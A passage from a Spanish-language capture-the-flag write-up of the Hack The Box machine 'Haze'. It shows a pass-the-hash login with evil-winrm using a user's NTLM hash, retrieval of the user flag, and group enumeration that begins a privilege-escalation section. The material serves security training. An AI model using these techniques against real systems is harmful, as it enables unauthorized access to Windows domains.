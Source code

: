 Este usuario pertenece al grupo de administración remota, por lo que podremos acceder por WinRM como el mismo. En su escritorio podremos encontrar la primera flag:

```bash
❯ evil-winrm -u edward.martin -H "09e0b3eeb2e7a6b0d419e9ff8f4d91af" -i dc01.haze.htb
Evil-WinRM shell v3.6
                                      
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\edward.martin\Documents> cd ..\Desktop
*Evil-WinRM* PS C:\Users\edward.martin\Desktop> ls -Force


    Directory: C:\Users\edward.martin\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---         6/26/2025  11:02 AM             34 user.txt


*Evil-WinRM* PS C:\Users\edward.martin\Desktop> type user.txt
38285836d71db0f991a06d64c4******
```

## Escalada de privilegios


### alexander.green - Splunk

Somos parte del grupo de revisores de backups:

```bat
*Evil-WinRM* PS C:\Users\edward.martin\Documents> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                         Attributes
=========================================== ================ =========================================== ==================================================
Everyone                                    Well-known group S-1-1-0                                     Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access     Alias            S-1-5-32-574                                Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                    Mandatory group, Enabled by default, Enabled group
HAZE\Backup_Reviewers                       Group            S-1-5-21-323145914-28650650-2368316563-1109 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                 Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448
```
